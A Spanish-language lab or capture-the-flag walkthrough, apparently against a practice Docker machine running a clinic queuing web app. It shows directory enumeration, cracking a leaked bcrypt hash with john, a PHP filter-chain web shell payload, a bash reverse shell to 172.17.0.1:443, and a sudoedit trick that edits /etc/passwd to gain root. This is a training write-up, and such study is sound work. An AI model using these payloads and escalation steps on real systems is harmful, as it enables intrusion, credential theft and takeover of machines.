 nmap:  80

![image](https://github.com/user-attachments/assets/2efcdff6-8aab-4844-9d4b-9df84354303e)

---
vamos a la pagina principal y hay un login 

![image](https://github.com/user-attachments/assets/ceb080c3-198f-466f-aeb2-f36ca68675c2)

hacemos un gobuster y nos da algunos que son llamativos

![image](https://github.com/user-attachments/assets/6db3b8c6-b51c-4cfd-b77c-1d350db89b1f)

aquí http://172.17.0.2/patients.php nos da una pagina con un calendario básico

![image](https://github.com/user-attachments/assets/008ad910-5b3d-4d83-ad24-c07126d5aaf7)

al /backup nos descargamos el zip y lo descomprimimos. nos da:

![image](https://github.com/user-attachments/assets/2f6d5bbe-ee79-48d9-869b-f85a7a42c6fe)

ahora entramos a una carpeta que nos dio llamada /db/ y nos da un txt que dentro hay un nombre o dos junto a una posible contraseña.
> castrojessica

![image](https://github.com/user-attachments/assets/feec5145-33e9-4e84-93c6-54fc19abe3f1)


utilizamos esta herramienta https://github.com/urbanadventurer/username-anarchy
para que nos genere contraseñas basadas en los nombres encontrados

dentro de la carpeta viendo el manual, creamos: nano username
> jessica castro

guardamos

ahora hacemos:

    ./username-anarchy -i username > users

y nos dará: 

![image](https://github.com/user-attachments/assets/f63b8c97-7470-4e27-87af-f8f4135137af)

también podemos ver que en el archivo "clinic_queuing_db.db " sale al contraseña 
y podemos hacerlo mas fácil  
pasamos la contraseña un hash 

>  $2y$10$iDHQftaCCEPmdPj/11E3DOGiw3AsOPf6uYBpEAuh8J19oeGuloJIK

  la pasamos a hash, nano hash y pegamos la contraseña
 ahora 
     
     john --wordlist=wordlist.txt hash
 
 y nos da la contraseña: 
 > j.castro
 
![image](https://github.com/user-attachments/assets/baf96a99-91d2-4ac7-bdae-66322e792093)

 
ahora vamos al login.php e ingresamos las credenciales:
> jessica / j.castro

y estamos dentro del panel

![image](https://github.com/user-attachments/assets/85c0234e-5902-4120-a4b1-8bac02376020)

tomamos el nombre principal de la pagina que dice:  # Clinic Queuing System

buscamos un exploit y encontramos: https://www.exploit-db.com/exploits/52008
que vemos que podemos filtrar por php:  py filter_chain 

![image](https://github.com/user-attachments/assets/449a178d-5102-40ea-b9a4-132c9bff8eb9)

buscamos un exploit en github: https://github.com/synacktiv/php_filter_chain_generator/blob/main/php_filter_chain_generator.py

ahora copiamos el código  

creamos:
> nano filter.py / pegamos el código guardamos


![image](https://github.com/user-attachments/assets/8c00970d-f30f-4413-8051-73320aed657d)


> ahora python3 filter.py

ahora  en el terminal colocamos:
> python3 filter.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'

nos dará un código que lo copiamos

![image](https://github.com/user-attachments/assets/4759141d-7a61-4ab1-8159-6bf156d6cb2d)

y colocamos el buscador así:  172.17.0.2/?cmd=ls -la&page= y aquí colocamos el código que nos dio  que es vulnerable a ejecución de código remoto (RCE)

![image](https://github.com/user-attachments/assets/1882fd64-397c-4ea4-ad7a-96a8856ac272)

ahora la URL debe quedar así:  172.17.0.2/?cmd=bash -c 'bash -i >%26/dev/tcp/172.17.0.1/443 0>%261'&page= y aquí colocamos el código que nos dio

dejamos la terminal en escucha y lanzamos

![image](https://github.com/user-attachments/assets/30de1100-7353-4a00-8bad-3bf59efb6db9)

y estamos dentro, buscando no encontré mucho y probé con las mismas credenciales ya que no hay otro usuario aparte de jessica y root:  jessica / j.castro

![image](https://github.com/user-attachments/assets/f91d2c15-86ad-4e95-b985-2b3caf3a07be)

ahora al hacer sudo -l aparece:  (root) NOPASSWD: sudoedit /var/www/html/*

para escalar encontré: 

![image](https://github.com/user-attachments/assets/41ea38c9-04e3-402f-845e-c2c726bc7df0)

o sea que puedo modificar el archivo, encontré este comando para poder dar el permiso de modificar por decir asi:

    export EDITOR='nano -- /etc/passwd'

ahora editamos:
  
    sudoedit /var/www/html/index.pgsd

le quitamos la x a root 

![image](https://github.com/user-attachments/assets/bc9961fd-a47b-4faa-98fb-b4f32dcec2af)

![image](https://github.com/user-attachments/assets/df39af77-bdae-4163-b5e1-30263aa60ac9)

colocamos su root y somos root!
![[suroot.png]]
muchas gracias! 
